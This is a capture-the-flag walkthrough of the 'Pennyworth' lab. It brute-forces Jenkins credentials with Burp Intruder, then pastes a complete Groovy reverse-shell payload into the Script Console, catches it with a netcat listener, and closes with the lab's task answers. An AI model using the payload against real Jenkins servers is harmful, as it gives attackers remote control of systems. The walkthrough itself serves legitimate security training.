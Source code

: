 # Pennyworth      

![Pennyworth](./Screenshots/pennylogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

![nmap](./Screenshots/pennynmap.png)

Only `http` service is running. Port `8080/tcp`.

After pasting `http://{target ip}:8080/` into the browser we can see website.

![web](./Screenshots/pennyweb.png)

### Burpsuite

Before trying `SQL Injection` or some other attacks, let's try to brute force credentials first.

Intercept the request.

![Burpsuite](./Screenshots/pennyburp.png)

![Burpsuite](./Screenshots/pennyburp2.png)

Send it to `Intruder` using `Ctrl + I` combination.

Mark `test` after password and click `Add §` icon.

To save your time, let's start enumerating with `root` as `username`.

![Burpsuite](./Screenshots/pennyburp3.png)

Go to `Payloads` section and in `Payload settings` load payload which you want to use.

![Burpsuite](./Screenshots/pennyburp4.png)

If all of the above is done press `Start attack`.

![Burpsuite](./Screenshots/pennyburp5.png)

We can see that the password is `password`.

So our credentials are:

```
root:password
```

Try to log in.

![login](./Screenshots/pennylogin.png)

We are in `Administrator` pannel.

![login](./Screenshots/pennylogin2.png)

In `Manage Jenkins` section there is `Script Console`.

![login](./Screenshots/pennylogin3.png)

`Jenkins Script Console` is a powerful feature in `Jenkins`, which is a popular open-source automation server used for continuous integration and continuous delivery (CI/CD). The `Script Console` allows administrators to execute `Groovy` scripts directly within the `Jenkins` environment. This feature provides a way to automate and manage `Jenkins` instances programmatically. Using the `Script Console`, administrators can perform complex automation tasks and administrative actions by leveraging `Groovy`, a scripting language that is similar to Java but more concise and flexible. The scripts have direct access to the Jenkins API, allowing interaction with all aspects of the `Jenkins` server, such as job configurations, build triggers, and system settings. Commands entered into the `Script Console` are executed in real-time, making it a powerful tool for immediate changes and troubleshooting.

Given our access to this, we can try to execute a command that will give us a `reverse shell` back to our local machine.

### Reverse Shell and Netcat 

A `reverse shell` is a method used by attackers to gain remote access to a target machine. In this setup, the target machine initiates a connection back to the attacker's machine, which is listening for incoming connections. This allows the attacker to execute commands on the target machine remotely. `Reverse shells` are often used to bypass firewalls and security measures, as many networks allow outgoing connections, making it easier for the attacker to establish a connection without being blocked. This technique is commonly employed in hacking and penetration testing to control compromised systems.

To create `reverse shell` I almost always use this site: https://www.revshells.com/

To do this, we need `ip address` of our `tun0` interface as we are connected through VPN.

Type:

```
ip a | grep tun0
```

![revshell](./Screenshots/pennync.png)

If you have it, paste the `ip address` in the `ip` box and the port number you have selected in the `Port` box.

![revshell](./Screenshots/pennync2.png)

Remember to select `Groovy`.

It should look like this:

```
String host="{your tun0 ip}";int port={port of your choice};String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Payload is ready.

Now it's time to start our `netcat` listener.

Type:

```
nc -lvnp {port you have chosen}
```

and press `Enter`

`-l` - Tells netcat to listen for an incoming connection rather than initiating an outbound connection.

`-v` - Enables verbose mode, which provides detailed output about the connection process, making it easier to debug.

`-n` - Prevents DNS lookup, allowing netcat to use numeric IP addresses and port numbers directly, which speeds up the connection process.

`-p` - Specifies the port number on which netcat should listen for incoming connections.

Finally, we can execute our reverse shell command.

![revshell](./Screenshots/pennync3.png)

Paste it into ` Script Console` and press `Run`.

Now we can go back to our `netcat` listener. We should successfully connect.

![revshell](./Screenshots/pennync4.png)

### Get the flag

Flag must be somewhere there.

![flag](./Screenshots/pennyflag.png)

### Paste the flag

![pwned](./Screenshots/pennypwned.png)

## Answers

### Task-1: What does the acronym CVE stand for?

Common Vulnerabilities and Exposures

### Task-2: What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

confidentiality, integrity, availability

### Task-3: What is the version of the service running on port 8080?

Jetty 9.4.39.v20210325

### Task-4: What version of Jenkins is running on the target?

2.289.1

### Task-5: What type of script is accepted as input on the Jenkins Script Console?

Groovy

### Task-6: What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

cmd.exe

### Task-7: What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

ifconfig

### Task-8: What switch should we use with netcat for it to use UDP transport mode?

-u

### Task-9: What is the term used to describe making a target host initiate a connection back to the attacker host?

reverse shell

### Submit root flag

GG.